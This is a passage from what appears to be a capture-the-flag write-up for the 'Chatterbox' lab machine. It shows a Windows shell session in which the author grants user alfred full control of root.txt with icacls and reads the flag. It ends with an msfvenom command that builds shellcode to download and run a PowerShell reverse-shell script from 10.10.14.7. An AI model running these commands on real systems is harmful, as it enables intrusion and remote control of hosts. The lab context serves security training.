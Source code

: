 ```
Access is denied.

c:\Users\Administrator\Desktop>
```

Let's check the permissions on the file:

```
C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>
```

This is odd, because winpeas reported that "alfred" has "AllAccess" to the home folders for the "administrator" user. If that is the case, we should be able to simply change the permissions on the file. Let's try it:

```
C:\Users\Administrator\Desktop>icacls root.txt /grant alfred:F
icacls root.txt /grant alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>
```

That worked, and we can now grab the root flag:

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
cd6d33f51cf819eed72db0da8a428943

C:\Users\Administrator\Desktop>
```

## Privilege Escalation

Let's redo all the steps beginning with "Gaining Access". This time, we'll attempt to get a reverse shell using Powershell. To do this, we'll need to generate new shellcode as follows:

> msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/Invoke-PowerShellTcp.ps1')"" -e x86/unicode\_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

Download the powershell script from the following page:
